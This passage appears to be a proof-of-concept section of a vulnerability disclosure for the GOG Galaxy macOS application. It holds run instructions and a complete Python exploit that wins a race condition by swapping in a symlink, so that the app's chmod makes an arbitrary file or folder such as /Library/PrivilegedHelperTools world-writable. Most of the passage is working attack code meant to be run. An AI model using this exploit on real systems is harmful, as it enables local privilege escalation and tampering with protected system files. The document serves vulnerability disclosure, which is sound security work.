 ### Running the PoC 

Copy the following python script to `/tmp/` and run it with the first parameter being the folder / file that you want to chmod. eg., 

`python3 poc.py /Library/PrivilegedHelperTools`

If the code does not work you may need to change the `initial_delay` to be lower. The default value is based off the application running in a virtual machine so may be lower when running natively.

```python 
from subprocess import Popen, PIPE, STDOUT, DEVNULL
import os
import sys
import time
import shutil

target = sys.argv[1]
done = False
initial_delay = 15

print("computing initial delay")

while True:
        shutil.copytree("/Applications/GOG Galaxy.app", "/tmp/GOG Galaxy.app")
        os.chmod("/tmp/GOG Galaxy.app", 0o755)
        os.mkdir("/tmp/app_test")

        proc = Popen("/tmp/GOG Galaxy.app/Contents/MacOS/GOG Galaxy", stdin=PIPE, stdout=DEVNULL,stderr=STDOUT)
        time.sleep(initial_delay)
        os.rename("/tmp/GOG Galaxy.app", "/tmp/app_test")

        time.sleep(0.1)
        time.sleep(initial_delay)
        proc.kill()
        time.sleep(0.1)

        status = os.stat("/tmp/app_test")
        mode_string = str(oct(status.st_mode)[-3:])
        shutil.rmtree("/tmp/app_test/")
        if mode_string == "777":       
                break
        initial_delay += 1
        
print("initial delay is around {} seconds".format(initial_delay))

for i in range(initial_delay-2, initial_delay+2):
        for j in range(0, 10):
                shutil.copytree("/Applications/GOG Galaxy.app", "/tmp/GOG Galaxy.app")
                os.mkdir("/tmp/app_test")

                proc = Popen("/tmp/GOG Galaxy.app/Contents/MacOS/GOG Galaxy", stdin=PIPE, stdout=DEVNULL,stderr=STDOUT)

                delay = i + (j * 0.1)
                time.sleep(delay)

                os.rename("/tmp/GOG Galaxy.app", "/tmp/app_test")
                os.symlink(target, "/tmp/GOG Galaxy.app")

                time.sleep(0.1)
                proc.kill()
                time.sleep(0.1)

```